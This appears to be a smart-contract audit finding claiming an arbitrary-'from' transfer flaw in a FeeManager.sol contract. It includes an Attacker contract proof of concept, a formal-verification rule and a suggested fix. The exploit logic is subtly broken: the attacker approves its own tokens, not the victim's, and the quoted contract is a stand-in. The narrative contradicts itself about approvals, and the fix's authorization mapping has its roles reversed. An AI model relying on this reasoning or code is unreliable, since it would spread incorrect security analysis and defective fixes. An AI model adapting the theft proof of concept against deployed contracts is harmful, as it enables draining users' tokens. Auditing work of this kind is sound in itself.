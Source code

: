 Flat Spruce Albatross

high

# ## H-1: Arbitrary `from` passed to `transferFrom` (or `safeTransferFrom`)

## Summary

This report details a critical vulnerability in the FeeManager.sol contract that allows an attacker to transfer tokens without authorization.

## Vulnerability Detail
- Found in https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/fees/FeeManager.sol?plain=1#L465
 Label: security, high-severity
 Line: 465

Passing an arbitrary `from` address to `safeTransferFrom` can lead to loss of funds, as anyone can transfer tokens from the `from` address if an approval is made. This means an attacker can manipulate this address to initiate unauthorized token transfers from any user's wallet, as long as the attacker has previously gained approval to transfer tokens from that wallet.
## Impact
This vulnerability is rated High because exploitation of this vulnerability could  potentially lead to attackers draining tokens from any user's wallet resulting to significant financial losses. Unauthorized transfers can disrupt the intended functionality of the FeeManager.sol contract. If exploited, this vulnerability could lower user trust and potentially lead to a decrease in user adoption of the protocol.
## Code Snippet

```solidity
asset_.safeTransferFrom(from_, to_, amount_);
```

## Tool used
Certora for Formal Verification
Manual review
**Proof of Concept**
In a scenario where an approval is made for a from address. With the current implementation of the `safeTransferFrom` function, where any address can initiate a transfer from the from address. This vulnerability could lead to the theft of a significant amount of tokens from any user who has previously granted approvals.
Exploit Scenario:

1. **Initial Setup**: Let`s assume **Address A** has a balance of tokens in the FeeManager.sol contract**. Address A** approves **Address B** to spend a certain amount of tokens on their behalf.

2. A malicious actor:**Address C**, who is not approved by **Address A**, prepares to exploit the vulnerability.

3. **Exploiting the Vulnerability**: **Address C** calls the` safeTransferFrom` function within the FeeManager.sol contract, specifying **Address A** as the from_ address, any desired recipient address as the `to_ address`, and the amount of tokens they wish to steal from **Address A**.

4. **Execution**: Due to the lack of proper access control within the `safeTransferFrom` function, the transaction from **Address C** succeeds. This allows **Address C** to transfer tokens from **Address A** to the specified recipient address without **Address A's** authorization.

5. **Final outcome**: **Address C** successfully steals tokens from **Address A** without authorization, this shows that there is a vulnerability in the FeeManager.sol contract.

The example attack would look like this:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";

contract FeeManager {
    using SafeERC20 for IERC20;

    function safeTransferFrom(address from_, address to_, uint256 amount_) public {
        IERC20 asset_ = IERC20(0x...); // Token address
        asset_.safeTransferFrom(from_, to_, amount_);
    }
}

contract Attacker {
    FeeManager public feeManager;
    IERC20 public token;

    constructor(address _feeManager, address _token) {
        feeManager = FeeManager(_feeManager);
        token = IERC20(_token);
    }

    function exploit(address victim, uint256 amount) external {
        // Approve the FeeManager contract to spend the victim's tokens
        token.approve(address(feeManager), amount);

        // Call the vulnerable safeTransferFrom function with the victim's address
        feeManager.safeTransferFrom(victim, address(this), amount);
    }
}

```

```solidity
// @title Demonstrates vulnerability: transferFrom can be used to steal tokens
rule vulnerabilityInTransferFrom(address attacker, address victim, uint256 amount) {
    env e;

    uint256 victimBalanceBefore = balanceOf(victim);
    uint256 attackerBalanceBefore = balanceOf(attacker);

    // Exploiting the Vulnerability
    transferFrom(e, victim, attacker, amount);

    uint256 victimBalanceAfter = balanceOf(victim);
    uint256 attackerBalanceAfter = balanceOf(attacker);

    assert (
        victimBalanceBefore - amount == victimBalanceAfter &&
        attackerBalanceBefore + amount == attackerBalanceAfter
    ),
    "vulnerability detected: attacker was able to steal tokens from victim";
}
 ```

## Recommendation
My recommended mitigation for this vulnerability is to add a check in the `safeTransferFrom` function to ensure that the `from address` is not arbitrary. This could be done by checking that the from address is either the sender of the transaction (msg.sender) or an address that is authorized by the sender. Here's an example of how this could be implemented:

```solidity
function safeTransferFrom(address from_, address to_, uint256 amount_) public {
    require(from_ == msg.sender || isAuthorized[msg.sender][from_], "Caller is not owner nor approved");
    asset_.safeTransferFrom(from_, to_, amount_);
}

```
We could check for authorization using the `require` statement, which checks if the `from_ address` is either the` msg.sender` (the caller of the function) or an address that is authorized by the `msg.sender`. This ensures that only the owner of the tokens or an authorized address can initiate the transfer.
The `isAuthorized` mapping should be defined in your contract to keep track of which addresses are authorized to transfer tokens on behalf of others. This mapping should be updated whenever an address is authorized or deauthorized.
```solidity
mapping(address => mapping(address => bool)) public isAuthorized;

function authorize(address from_) public {
    isAuthorized[msg.sender][from_] = true;
}

function deauthorize(address from_) public {
    isAuthorized[msg.sender][from_] = false;
}
```
To summarize, I would say by implementing this check, you can prevent unauthorized addresses from initiating transfers from the from address, thereby mitigating the vulnerability.
